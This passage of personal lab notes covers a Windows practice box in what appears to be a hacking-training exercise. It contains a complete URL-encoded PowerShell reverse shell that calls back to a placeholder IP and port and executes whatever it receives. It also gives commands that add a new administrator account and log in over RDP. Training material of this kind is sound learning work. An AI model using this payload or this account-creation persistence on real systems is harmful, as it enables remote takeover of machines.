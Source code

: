 - [PayloadsAllTheThings Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [Using “netcat”](https://cardboard-iguana.com/notes/netcat.html)
- [Using “socat”](https://cardboard-iguana.com/notes/socat.html)

## Windows Practice Box

> Try uploading and activating the `php-reverse-shell`. Does this work?

Unsurprisingly, `php-reverse-shell.php` does _not_ work on a Windows box.

> Upload a webshell on the Windows target and try to obtain a reverse shell using Powershell.

Evil, URL-encoded version of the PowerShell reverse shell from above:

```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

Remember to replace `<IP>` and `<PORT>`.

One annoying thing about this reverse shell… There’s no initial prompt, so you have no idea whether you’ve connected or not. but as soon as you enter a command (`whoami`, etc.), a prompt will appear after the output. On the plus side, however, this reverse shell will persist even after the PHP script times out!

> The webserver is running with SYSTEM privileges. Create a new user and add it to the “administrators” group, then login over RDP.

Use:

```
net user $USERNAME $PASSWORD /add
net localgroup administrators $USERNAME /add
```

It’s worth noting that users added via `net user` seem to bypass Windows’ password policies…

It seems that xfreerdp is installed on Kali Linux, so we can connect from there.

```
xfreerdp /dynamic-resolution \
+clipboard \
/cert:ignore \
/v:$TARGET_IP \
/u:$USER \
/p:$PASSWORD
```

> Experiment using socat and netcat to obtain reverse and bind shells on the Windows Target.
